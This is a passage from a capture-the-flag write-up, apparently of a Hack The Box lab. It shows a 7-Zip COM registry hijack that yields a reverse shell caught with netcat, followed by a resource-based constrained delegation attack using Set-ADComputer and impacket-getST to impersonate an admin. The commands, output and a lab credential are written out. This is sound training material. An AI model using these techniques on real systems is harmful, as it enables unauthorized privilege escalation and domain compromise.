 4. **Verify the hijack**:
```cmd
reg query "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"

# Now shows:
# (Default)    REG_SZ    C:\test\tshell.dll
```

#### Step 5: Trigger COM Object Instantiation

The 7-Zip COM object gets instantiated when:
- Windows Explorer processes archive files
- Applications use 7-Zip programmatically
- System services interact with compressed files
- File association handlers are triggered

Within minutes of the registry modification, the COM object was triggered, resulting in a reverse shell connection:

```bash
[Sep 21, 2025 - 06:42:18 (CEST)] exegol-htb /workspace # rlwrap nc -lvnp 4445
Ncat: Connection from 10.10.11.75.
Microsoft Windows [Version 10.0.17763.7434]
C:\Windows\system32>
```

#### The Perfect Storm: Connecting All Elements

The COM hijacking success was made possible by the convergence of several factors:

1. **PDF Intelligence**: The internal document specifically mentioned Support Group's extended access to archiving tools
2. **Group Membership**: ee.reed's membership in the Support Group provided the necessary registry permissions
3. **COM Enumeration**: Systematic registry analysis identified the 7-Zip COM object as a viable target
4. **Registry Permissions**: The Support Group's "extended access" translated to write permissions on HKLM COM entries
5. **Automatic Trigger**: Windows' frequent interaction with COM objects ensured the payload executed quickly

This attack chain demonstrates how seemingly minor hints in documentation can reveal major attack vectors, and how proper enumeration can turn abstract permissions ("extended access to archiving tools") into concrete privilege escalation paths.

### Resource-Based Constrained Delegation (RBCD)

The final privilege escalation used RBCD through mm.turner's DELEGATIONMANAGER rights:

1. **Configure delegation**:
```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

2. **Perform S4U2Self impersonation**:
```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!'
```
